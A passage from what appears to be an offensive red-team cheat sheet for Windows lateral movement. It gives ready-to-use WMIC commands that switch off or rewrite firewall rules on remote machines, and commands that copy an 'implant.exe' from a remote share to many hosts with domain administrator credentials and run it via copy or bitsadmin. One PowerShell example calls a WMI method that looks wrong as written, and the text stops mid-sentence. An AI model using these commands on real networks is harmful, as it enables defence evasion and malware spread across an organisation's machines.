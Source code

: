 #### 1.3.2 - Firewalls

Disabling firewall rules (not recommended for OPSEC)

```
C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] process call create "cmd.exe /c netsh advfirewall set allprofiles state off"
```

Deleting a firewall rule

```
C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] process call create "cmd.exe /c netsh advfirewall firewall delete rule name=\"<rule_name>\""
```

Adding firewall rules

```
C:\> wmic.exe /node:<IP> [/user:<username> /password:<password>] process call create "cmd.exe /c netsh advfirewall firewall add rule name=\"<rule_name>\" dir=in action=allow protocol=tcp localport=<port>"
```

#### 1.3.3 - Copy and Execute Implant in Multiple Machines

> [!NOTE] One administrator user account have access to all or most machines
> Use an `Administrator` user or any domain admin account that has access to all or most Windows machines.

```
C:\> wmic.exe /node:@hosts.txt /user:"<domain>\Administrator" /password:"PASSWORD" process call create "cmd.exe /c copy /y \\<IP>\C$\implant.exe %APPDATA%\implant.exe & %APPDATA%\implant.exe"

C:\> wmic.exe /node:@hosts.txt /user:"<domain>\Administrator" /password:"PASSWORD" process call create "cmd.exe /c bitsadmin /transfer Updater \\<IP>\C$\implant.exe %APPDATA%\implant.exe & %APPDATA%\implant.exe"
```

## 02 - PowerShell

### 2.1 - Usage

#### 2.1.1 - Invoke-WmiMethod

```
PS C:\> Get-CimInstance -ClassName Win32_Net* -List

PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "<commands>"
```

The `Win32_Process` class contains a static method named create that can spawn a process locally or remotely. This is the WMI equivalent of running psexec.exe only without unnecessary forensic artifacts like the creation of a service. The following example demonstrates executing a process on a remote machine:
